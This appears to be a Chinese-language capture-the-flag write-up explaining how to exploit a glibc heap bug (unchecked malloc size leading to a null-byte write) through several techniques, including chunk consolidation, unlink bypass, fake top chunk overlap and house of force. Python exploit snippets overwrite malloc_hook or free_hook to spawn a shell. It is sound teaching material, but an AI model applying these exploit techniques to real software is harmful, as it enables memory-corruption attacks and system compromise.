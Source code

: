 # 零碎的知识点
### 1.main_arena 与 t_arena
malloc一个很当的空间时，int_malloc会返回null<br>
从而去调用arena_get_retry分配新的arena，再次尝试去分配内存，当然最后分配也是失败的<br>
一旦分配了新的arena，之后的堆操作会使用这个arena进行操作，可以参考arena_get函数<br>
新的arena的查看，p &main_arena->next 就可以找到新的arena的地址，进行查看
![t_arena](img/t_arena.png)<br>

# 题目分析
menu题目<br>
![menu](img/menu.PNG)<br>
### 漏洞点
漏洞点在new_note的malloc地方，malloc的size没有被限制，也没有校验malloc的返回值<br>
导致`*((_BYTE *)qword_202050[v1] + size - 1) = 0;`，任意地址写0<br>
![vuln](img/vuln.PNG)<br>


## 总体思路
1.chunk块在free和malloc的时候没有对立面的内容进行清空，所以很容易可以泄露出main_arena的地址,进而获取libc的基址<br>
2.由于要使用任意地址写0这个操作，必定要malloc(big_size)，后续的操作都会在t_arena上进行。所以先将chunk移到t_arena上，然后泄露t_arena的基址<br>
3.这个题目，总共找到了五种解题方法（getshell或者成功写malloc_hook视为解题成功）<br>
3.1.这个题目一共只能申请三个chunk，使用chunka、chunkb、chunkc代替。思路为使用chunkb修改chunkc的pre_size，pre_size覆盖chunka,chunkb。然后将chunkc的inuse位写0,free(chunkc)达到conslidate(chunka+chunkb+chunkc)的目的，此时可以通过malloc切割chunkabc来写chunkb
3.2.和第一种类似，也是将chunkc in use位写0，通过free(chunka)，之后通过unlink 去consolidate(chunkb)，让chunka和chunkb合并。使用malloc切割chunkab来写chunkb<br>
3.3.修改t_arena中top chunk的地址，在chunka中伪造一个top chunk，在t_arena的top chunk地址最低位写0，这个地址刚好落在chunka内，如果此时在申请一个chunkc，就会造成chunkb和chunkc的overlap，就可以使用chunkc去修改chunkb








## 具体利用
### 1+2.前面的利用基址就不详细说了
### 3.1.free(chunkc) && conslidate(chunka+chunkb+chunkc)
使用chunkb去写chunkc的pre_size,chunkd防止top chunk和chunkc合并了，此时chunka和chunkc都挂在unsortedbin上。
```
  new(0,0x98,'A'*0x97)
  new(1,0x68,'B'*0x60+p64(0x140))
  new(2,0xf0,'C'*0xef)

  #like off-by-one-null
  delete(1)
  new(1,0x30,'D'*0x30)
  delete(2)
  delete(0)
  new(2,0x68,'B'*0x67)
```
![3.1.1](img/3.1.1.PNG)<br>
chunkc在in use的情况下，size的值是105，因为是mmap分配的，free的情况下是101,此时将chunkc(freed)的in use位写0<br>
将chunkc malloc回来，然后在free，触发consolidate，在0x7ffff00008b0的地方有一个size=0x241大小的chunk挂在unsortedbin上<br>
之后申请都会先从这个chunk里面切割，last chunk。
```
  new(0,heap_addr-0x78+0x9f8+1,'')
  new(0,0xf0,'C'*0xef)
  delete(0)
```
![3.1.2](img/3.1.2.PNG)<br>
此时chunkabc就能够写chunkb了，此时可以单独free(chunkb)，然后去写chunkb的fd，就可以将malloc_hook附近的地址放进chunkb的fd<br>
```
  delete(2)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x74)+p64(malloc_hook))
```
![3.1.3](img/3.1.3.PNG)<br>
new两次，将malloc_hook附近的地址new出来就可以修改内容了，填成one_gadget getshell<br>
```
  new(2,0x68,'')
  delete(1)
  new(1,0x68,'A'*19+p64(0xdeedbeef))
```
![3.1.4](img/3.1.4.PNG)<br>
### 3.2.free(chunka) && conslidate(chunka+chunkb)
这种方式和第一种类似，不过这里要绕过unlink里面double-linked list的机制<br>
第一种方式里面自带了合法的fd和bk，所以不需要特意构造fd和bk绕过double-linked机制<br>
这种解法要自己构造chunkb的fd+bk，让chunka和chunkb的fd+bk互相指向，来绕过double-linked机制<br>
满足以下条件:
```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);

```
所以需要在满足double-linked条件下，将chunkc的in use位修改成0，标志着chunkb没有被使用<br>
那么在free(chunka)的时候，就会触发unlink机制，consolidate(chunka+chunkb)
```
  new(0,0x98,'A'*0x98)
  new(1,0x68,p64(0x7ffff00008b0)*2+'B'*0x50+p64(0x70))
  new(2,0xf0,'C'*0xef)
  delete(0)
  new(0,heap_addr-0x78+0x9f8+1,'') 
  new(0,0xc0,p64(0x7ffff0000980)*2+'A'*0xb0)
```
![3.2.1](img/3.2.1.PNG)<br>
chunka+chunkb合并之后放入unsortedbin，作为last chunk，之后申请小于size(chunka+chunkb)的chunk都会切割last chunk<br>
```
  delete(0) #consolidate(chunka+chunkb)
  delete(1)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x75)+p64(malloc_hook))
```
![3.2.2](img/3.2.2.PNG)<br>
之后将malloc_hook附近的chunk new出来，就可以改写malloc_hook了
```
  new(1,0x68,'')
  delete(0)
  new(0,0x68,'A'*19+p64(0xdeedbeef))
```
![3.2.3](img/3.2.3.PNG)<br>

### 3.3.修改t_arena里面top chunk的地址，造成chunk之间的overlap
在chunka里面伪造一个top chunk,让伪造topchunk的地址刚好落在0x7ffff0000900的地方<br>
在申请一个chunkb，等待被overlap<br>
```
  new(0,main_arena,'') #让fastbin和unsortedbin和top chunk全部合并，方便布局
  new(0,0x70,'A'*0x48+p64(0x20701))
  new(1,0x60,'B'*0x60)

```
![3.3.1](img/3.3.1.PNG)<br>
然后修改t_arena上面top chunk的地址，将最低位写0，由0x7ffff00009a0->0x7ffff0000900<br>
```
  new(2,heap_addr-0x78+0x79,'')
```
before:<br>
![3.3.2](img/3.3.2.PNG)<br>
after:<br>
![3.3.3](img/3.3.3.PNG)<br>
此时malloc的时候，就会从0x7ffff0000900的地方申请空间了，这样就会造成新申请的chunkc和chunkb overlap了。<br>
红色框框里面的就是通过fake top chunk，malloc出来的chunkc<br>
```
  malloc_hook=main_arena-0x78+5-0x18
  new(2,0x40,'a'*0x20+p64(0)+p64(0x75)+p64(malloc_hook))
```
![3.3.4](img/3.3.4.PNG)<br>
new出来搞定,效果图同3.1/3.2<br>
```
  new(1,0x68,'')
  delete(2)
  new(2,0x68,'A'*19+p64(0xdeedbeef))
```
### 3.4.house of force。修改top chunk size,通过malloc 将top chunk size推向高地址free_hook
从第三种方式可以知道可以控制top chunk的size，这样可以通过将top chunk的size修改的很大<br>
在malloc(big_size)的时候不会崩溃<br>
使得top chunk size刚好覆盖到free_hook，切top chunk size的值刚好为system_addr<br>
所以top chunk size的大小应该为`(free_hook的地址 - 当前top chunk 的地址) + system_addr`<br>
Q：为什么不用one_gadget?为什么不用malloc_hook?<br>
由于top chunk size大小的地位是8字节对齐的，只可能为xxx1或者xxx9<br>
这样跳转one_gadget的地址存在一定的偏移，在xxx1或xxx9的时候，不能成功getshell<br>
这也是不能使用malloc_hook的原因，没有办法使用one_gadget。<br>
之所以使用free_hook，是因为在free(chunkx)时,调用free_hook的时候，会将chunkx的data段作为free_hook的参数<br>
即free_hook(chunkx) -> system("/bin/sh")<br>
```
  main_arena=main_arena-0x58
  malloc_hook=main_arena-0x10

  #free(chunk)->free_hook(chunk->data)->system(/bin/sh)
  free_hook=0x7ffff7bcd7a8#libc_base+libc['free_hook']
  topchunk=heap_addr-0x78+0x900

  #free(chunk)->free_hook()->onegadget
  #one_gadget not fit
  offset=free_hook-topchunk-0x10
  success(hex(offset))

  one_gadget=main_arena-0x3c4b20+0xf1147
  system_addr=main_arena-0x3c4b20+0x45390
  success(hex(one_gadget))

```





























